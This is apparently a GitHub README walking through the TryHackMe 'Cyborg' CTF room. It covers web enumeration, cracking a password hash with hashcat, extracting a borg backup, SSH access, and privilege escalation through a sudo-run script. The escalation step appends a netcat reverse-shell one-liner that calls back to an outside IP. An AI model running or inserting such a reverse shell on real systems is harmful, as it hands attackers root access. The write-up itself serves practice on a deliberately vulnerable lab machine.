



# Cybrog CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Cybrog** CTF challenge on [TryHackMe](https://tryhackme.com/room/cyborgt8). 
---

scanning and looking for hidden folders


found `/admin`, `/etc/squid`

found paswd file in `/etc/squid`


found conf file in /etc/squid


cracked the hash with hashcat

```
hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```


downloaded archive from website 

its using borg




we need passphrase for the archive, the previous one does the work


```
borg extract home/field/dev/final_archive/::music_archive
```

after extracting:


extracted borg backup and found `note.txt` in `/home/alex/Documents`



now we probably have ssh credentials

we got user flag


found interesting things with sudo -l


content of the backup.sh file:


i added write permission to our file `chmod +w`

then put reverse shell into our script

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.91.59 4445 >/tmp/f" >> backup.sh
```


and we got root access and root flag



## MACHINE PWNED
